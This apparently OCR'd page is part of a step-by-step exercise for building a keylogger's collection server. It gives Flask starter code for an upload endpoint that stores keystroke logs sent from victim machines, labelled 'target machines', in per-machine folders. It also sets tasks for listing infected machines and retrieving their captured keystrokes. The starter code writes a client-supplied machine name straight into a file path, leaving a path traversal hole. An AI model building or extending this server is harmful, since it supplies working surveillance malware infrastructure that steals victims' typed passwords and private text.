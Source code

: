 ## Step 3: Creating API to get KeyLogger data
Task:
Create a listener via Flask that will listen to data from the tool.

### Required Result:
Data from the tool will be recieved by the server, will be decrypted and saved to the disk under data/ folder.

- POST to api/upload/ that gets data and save it in structure:
  - data/<machine>/log_<timestamp>.txt

Here is a starter code (rest of app.py):

from flask import request
import time

def generate_log_filename():
  return "log_" + time.strftime("%Y-%m-%d_%H-%M-%S") + ".txt"
@app.route('/api/upload', methods=['POST'])
def upload():
  data = request.get_json()
  if not data or "machine" not in data or "data" not in data:
    return jsonify({"error": "Invalid payload"}), 400
  machine = data["machine"]
  log_data = data["data"]

  machine_folder = os.path.join(DATA_FOLDER, machine)
  if not os.path.exists(machine_folder):
    os.makedirs(machine_folder)

  filename = generate_log_filename()
  file_path = os.path.join(machine_folder, filename)

  with open(file_path, "w", encoding="utf-8") as f:
    f.write(log_data)

  return jsonify({"status": "success", "file": file_path}), 200

## Step 4: Creating API to get computer list
Task:
Create an API on your server named get_target_machines_list(), allowing to get the computer list on which the tool ran so far.
The computer list will be extracted from folders names, no need for a database.

### Required Result:
A GET call to api/get_target_machines_list/ will return a JSON array with computers names.

## Step 5: Extracting specific machine keystrokes data
Task:
Create an API in the server named get_target_machine_key_strokes(target_machine) that allows to get keystrokes from a specific machine.
